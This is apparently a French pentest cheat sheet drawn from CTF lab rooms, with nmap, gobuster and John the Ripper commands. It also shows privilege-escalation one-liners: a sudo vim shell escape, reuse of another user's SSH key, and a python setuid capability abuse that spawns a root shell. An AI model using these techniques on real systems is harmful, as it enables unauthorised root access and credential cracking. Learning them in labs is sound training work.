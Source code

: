 # (logo pentest) Pentest

## Pentest AD
[Pentest AD MAP](https://www.xmind.net/m/5dypm8/)

## Outils

### NMAP

Suffixes : 
* -sV : affiche la version des services existants sur les ports
* -sC : affiche les scripts par défaut qui sont activés sur les ports

Scan simple et rapide : 
* sudo nmap -sS -T5 <ip>

Exemples : 
* N°1 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    ```$ sudo nmap -sS -Pn -sV 10.10.188.70```

* N°2 : TryHackMe -> [Ice Room](https://tryhackme.com/room/ice)

    ```$ sudo nmap -sS -sC 10.10.188.70```

### Gobuster

Source : [gobuster](https://www.le-hacking.fr/brute-force-url-gobuster/)

gobuster -h : ```$ gobuster dir -u http://[adresse IP]:[Port] -w [wordlists]```

Exemples :
<br/>```./gobuster dir -u http://10.10.52.129/ -w /usr/share/wfuzz/wordlist/general/common.txt```

### John2ripper

```$ john-the-ripper --wordlist=Outils/wordlist/rockyou.txt id_rsa_basic_hash.txt ```

Permet de retrouver la passphrase pour se connecter en ssh à un user particulier.
## Méthodes
### Escalade de privilège

Exemple : 
* N°1 : TryHackMe -> [SimpleCTF Room](https://tryhackme.com/room/simplectf)

    <br/>```$ sudo -l```
    <br/>ans : User mitch may run the following commands on Machine:
    <br/>ans : (root) NOPASSWD: /usr/bin/vim
    <br/>```$ sudo vim -c ':!/bin/sh'```
    <br/>```# ^[[2;2R^[]11;rgb:3030/0a0a/2424^G```
    <br/>ans : /bin/sh: 1: ot found
    <br/>ans : /bin/sh: 1: 2R: not found
    <br/>```# whoami```
    <br/>ans : root

* N°2 : TryHackMe -> [BasicPentesting Room](https://tryhackme.com/room/basicpentestingjt)
    <br/>```ssh -i /home/<user>/.ssh/id_rsa kay@<ip>```
    <br/> Cette ligne permet de se connecter en ssh à un user par l'intermédiaire d'un autre user présent sur la même machine.

* N°3 : HackTheBox -> [CAP Room](https://app.hackthebox.eu/machines/Cap)

nathan@cap:~$ getcap -r / 2>/dev/null
/usr/bin/python3.8 = cap_setuid,cap_net_bind_service+eip
/usr/bin/ping = cap_net_raw+ep
/usr/bin/traceroute6.iputils = cap_net_raw+ep
/usr/bin/mtr-packet = cap_net_raw+ep
/usr/lib/x86_64-linux-gnu/gstreamer1.0/gstreamer-1.0/gst-ptp-helper = cap_net_bind_service,cap_net_admin+ep
nathan@cap:~$/usr/bin/python3.8 -c 'import os; os.setuid(0); os.system("/bin/bash")'